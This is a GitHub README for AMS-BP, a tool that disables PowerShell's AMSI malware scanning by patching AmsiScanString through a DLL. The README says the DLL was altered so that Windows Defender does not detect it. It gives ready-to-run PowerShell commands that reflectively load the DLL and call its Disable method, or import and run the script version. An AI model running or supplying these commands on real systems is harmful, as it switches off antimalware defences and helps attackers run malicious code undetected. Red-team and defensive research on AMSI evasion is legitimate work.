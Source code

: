 # AMS-BP https://github.com/Dec0ne/AMS-BP
Bypass Powershell AMSI using a simple script.
This Script is comprised of a DLL (source file included) which when loaded and executed will disable AmsiScanString.
This DLL is based on [CyberArk Post](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) with some minor changes to defeat Windows Defender and AMSI itself which now recognizes the strings inside the DLL when it is loaded.

## Usage:
__Using the DLL__
```powershell
PS C:\> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
PS C:\> [BP.AMS]::Disable()
```
__Using the .ps1 script__
```powershell
PS C:\> Import-Module .\AMSBP.ps1
PS C:\> AMSBP
```

